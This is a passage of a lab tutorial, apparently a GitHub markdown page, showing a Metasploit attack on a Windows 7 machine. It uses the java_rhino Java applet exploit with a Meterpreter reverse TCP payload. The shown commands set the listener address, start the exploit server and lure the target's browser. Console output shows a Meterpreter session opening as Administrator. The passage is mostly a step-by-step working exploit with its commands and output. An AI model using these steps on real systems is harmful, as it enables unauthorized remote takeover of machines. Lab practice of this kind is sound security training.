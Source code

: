 	
	Payload options (windows/meterpreter/reverse_tcp):
	
	   Name      Current Setting  Required  Description
	   ----      ---------------  --------  -----------
	   EXITFUNC  process          yes       Exit technique (Accepted: , , seh, thread, process, none)
	   LHOST                      yes       The listen address
	   LPORT     4444             yes       The listen port
	
	
	Exploit target:
	
	   Id  Name
	   --  ----
	   1   Windows Universal
	
	
	msf exploit(java_rhino) > 

Notice there is a new section for the payload options. Let's set the **LHOST** option:

	msf exploit(java_rhino) > set LHOST 192.168.1.30
	LHOST => 192.168.1.30

Now let's start the exploit:

	msf exploit(java_rhino) > exploit
	[*] Exploit running as background job.
	
	[*] Started reverse handler on 192.168.1.30:4444 
	msf exploit(java_rhino) > [*] Using URL: http://192.168.1.30:80/
	[*] Server started.

### Connect to the Exploit from Windows 7
Now let's go to the Windows 7 machine and from Internet Explorer point to our Kali Machine:

![win7-ie-visit-kali-mac](https://seacloud.cc/d/480b5e8fcd/files/?p=/ms-java-rhino/win7-ie-visit-kali-mac.png&raw=1)

and just leave the browser there. Then in the ***metasploit*** console you will see the following:

	[*] 192.168.1.20     java_rhino - Java Applet Rhino Script Engine Remote Code Execution handling request
	[*] 192.168.1.20     java_rhino - Sending Applet.jar
	[*] 192.168.1.20     java_rhino - Sending Applet.jar
	[*] Sending stage (885806 bytes) to 192.168.1.20
	[*] Meterpreter session 1 opened (192.168.1.30:4444 -> 192.168.1.20:49173) at 2015-11-26 13:47:20 -0500
	
### Get Interactive Shell on the Windows 7 Machine
At this point you will see a session connected to the Windows 7 Machine:

	msf exploit(java_rhino) > sessions -i
	
	Active sessions
	===============
	
	  Id  Type                   Information                            Connection
	  --  ----                   -----------                            ----------
	  1   meterpreter x86/win32  WIN7\Administrator @ WIN7  192.168.1.30:4444 -> 192.168.1.20:49173 (192.168.1.20)
	